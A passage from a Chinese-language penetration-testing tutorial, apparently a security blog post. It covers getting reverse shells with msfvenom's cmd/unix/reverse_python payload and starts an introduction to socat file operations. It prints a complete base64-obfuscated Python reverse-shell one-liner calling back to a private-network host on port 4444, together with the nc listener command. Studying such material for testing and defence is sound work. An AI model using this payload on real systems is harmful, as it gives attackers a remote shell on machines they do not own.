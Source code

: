 将生成的 payload 复制到失陷主机上运行，即可收到反弹回的 shell



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-05-28_12-36-45.png)



再比如使用 `cmd/unix/reverse_python` 这个payload







```none
# 控制端
> msfvenom -p cmd/unix/reverse_python lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 505 bytes
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICwgc3VicHJvY2VzcyAgICwgb3M7ICAgICAgaG9zdD0iMTcyLjE2LjIxNC40MyI7ICAgICAgcG9ydD00NDQ0OyAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICwgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICBzLmNvbm5lY3QoKGhvc3QgICAsIHBvcnQpKTsgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsIDApOyAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgMSk7ICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAyKTsgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"

> nc -lvp 4444
```

同样将生成的 payload 复制到失陷主机上运行，即可收到反弹回来的 shell，当然前提是目标主机安装了 python

## 3、socat 使用

socat 下载地址：http://www.dest-unreach.org/socat/，或者直接使用 `apt-get install socat` 安装，Mac 可使用 `brew install socat` 安装。

socat 全称 socket cat，可以视为 nc 的加强版，不过平时感觉 nc 也够用了，但是 nc 现在貌似会被杀软杀掉，而且貌似 nc 很久没更新了，反正多掌握点知识没坏处。

### 文件操作

**读取文件**







```none
> socat - ./test.txt  	# 相对路径读取
test

> socat - /tmp/test.txt	# 绝对路径读取
test
```

**写入文件**
